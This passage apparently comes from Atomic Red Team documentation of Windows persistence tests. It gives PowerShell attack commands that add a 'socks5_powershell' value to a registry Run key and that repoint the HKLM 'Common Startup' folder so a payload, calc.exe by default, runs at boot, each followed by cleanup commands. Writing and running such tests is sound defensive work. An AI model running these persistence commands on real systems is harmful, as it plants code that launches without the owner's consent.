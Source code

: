 
#### Attack Commands: Run with `powershell`! 


```powershell
$RunKey = "#{reg_key_path}"
Set-ItemProperty -Path $RunKey -Name "socks5_powershell" -Value "#{reg_key_value}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path #{reg_key_path} -Name "socks5_powershell" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #10 - Change Startup Folder - HKLM Modify User Shell Folders Common Startup Value
This test will modify the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders -V "Common Startup" 
value to point to a new startup folder where a payload could be stored to launch at boot.  *successful execution requires system restart

**Supported Platforms:** Windows


**auto_generated_guid:** acfef903-7662-447e-a391-9c91c2f00f7b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| new_startup_folder | new startup folder to replace standard one | string | $env:TMP&#92;atomictest&#92;|
| payload | executable to be placed in new startup location | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item -ItemType Directory -path "#{new_startup_folder}"
Copy-Item -path "#{payload}" -destination "#{new_startup_folder}"
Set-ItemProperty -Path  "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Common Startup" -Value "#{new_startup_folder}"
```

#### Cleanup Commands:
```powershell
Set-ItemProperty -Path  "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Common Startup" -Value "%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup"
Remove-Item "#{new_startup_folder}" -Recurse -Force
```
